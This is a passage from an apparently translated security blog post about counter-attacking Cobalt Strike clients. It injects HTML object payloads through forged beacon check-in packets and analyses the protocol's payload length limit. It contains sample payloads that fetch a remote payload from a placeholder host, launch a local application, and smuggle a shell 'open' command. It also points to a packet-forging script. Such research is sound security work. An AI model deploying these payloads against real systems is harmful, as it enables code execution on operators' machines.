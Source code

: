 ```
<html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='http://xxx.xxx.xxx.xxx/payload'>


```

Or open a local exe directly

```
<html><object classid='xxx.xxx.xxx.xxx'><parame name='XXX' value='file:///System/Applications/Calculator.app'>


```

or command injection

```
<html><object classid='xxx.xxx.xxx.xxx'><parame ;open http://www.baidu.com'>



```

Are these the most likely ones? **As for which chain to use, I will not disclose it here. Interested students will follow this idea to find possible chains in hundreds of classes.**  Next, regarding the length of the payload, no matter how you look at it, it has to be more than 60 or 70, which will lead to some subsequent restrictions.

0x03 CS's own limitations
-------------------------

Everyone knows how to use the simulated beacon protocol to insert img tags. I will briefly repeat here that  `https://github.com/LiAoRJ/CS_fakesubmit` this is a script to simulate the online package of beacon. It was used to play dos before, and now it can be used to insert payload. Specifically I will not repeat the usage in github. When the length of the inserted data is long, we will find a problem:

After adding the long payload here, the overall package length is 132 bytes, and his error message means that the entire space is only 117 bytes, which means that the payload has a maximum length limit. Let's analyze why there is a length limit in more detail. First, let's have a general understanding of the interaction process between beacon and team server. In fact, I am also a temporary Baidu article myself. Basically, I can find a similar protocol analysis article by searching.

![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAOtaXaWTSbvP4Ugz8AFGRs0PI4bfibiaibMkfQ1smcuCk83X7NUZA1ibD4S751bmUTELchhkwcDd3FFvg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

I won't go into too much detail, you can read the article for yourself first `https://www.ijiandao.com/2b/baijia/423712.html`

![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAOtaXaWTSbvP4Ugz8AFGRs03owe637ovEsltiaKpejxHP8Ma2nmHY48RicK94vHd6MVeCAZbSAgBpTg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAOtaXaWTSbvP4Ugz8AFGRs0kE4IfjvjiaVIbpTT6Ih2y6mMia1LZib7wzgsKKmqu8dibNObf33vwtE2pQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

In short, it is divided into two parts. The first part is the online package. The online package is the metadata encrypted by RSA inserted in the cookie. This metadata is the metadata, which generally contains some basic information such as user name, host name, operating system information and AES. KEY etc. The teamserver parses the data in the metadata and displays it on the home page. After obtaining the aes key from it, it is used to encrypt and decrypt the data related to subsequent tasks. And let's look at what's on the home page of CS's client
